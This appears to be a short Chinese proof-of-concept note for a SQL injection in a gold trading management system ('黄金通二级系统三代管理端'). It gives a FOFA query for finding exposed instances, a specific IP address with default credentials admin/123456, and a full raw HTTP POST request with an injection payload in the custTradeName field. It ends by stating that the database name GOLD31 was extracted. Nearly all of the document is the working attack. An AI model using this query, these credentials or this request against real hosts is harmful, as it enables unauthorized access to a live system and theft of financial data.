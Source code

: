 fofa:
```plan
title="黄金通二级系统三代管理端"
```
https://113.105.126.146:8900/  admin/123456
```
POST /storagework/rentTakeInfoPage.htm HTTP/1.1
Host: 113.105.126.146:8900
Cookie: JSESSIONID_null_8900=120szhvp9dh7nufxi51v08bs6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded;utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 44
Origin: https://113.105.126.146:8900
Referer: https://113.105.126.146:8900/reportframework/custStorageRentInfoSel.htm
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: close

page=1&origApp2=&RENTSTATEID=&custTradeName=*
```

![图片.png](images/22822d08-0c40-4c2c-bd5e-ea151d9e0d5c.png)

注出当前数据库为GOLD31
